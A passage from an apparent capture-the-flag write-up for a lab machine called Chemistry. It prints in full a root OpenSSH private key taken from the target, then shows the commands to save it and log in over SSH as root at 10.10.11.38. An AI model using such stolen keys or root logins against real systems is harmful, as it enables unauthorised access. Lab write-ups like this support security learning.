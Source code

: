 This is a great discovery! Let's save this **private key**, log in using **SSH** and print the **flag**:

```bash
echo '-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----' > root_id_rsa
chmod 600 root_id_rsa
ssh -i root_id_rsa root@10.10.11.38
```

![](/assets/Chemistry/17.png)
<br />
<br />
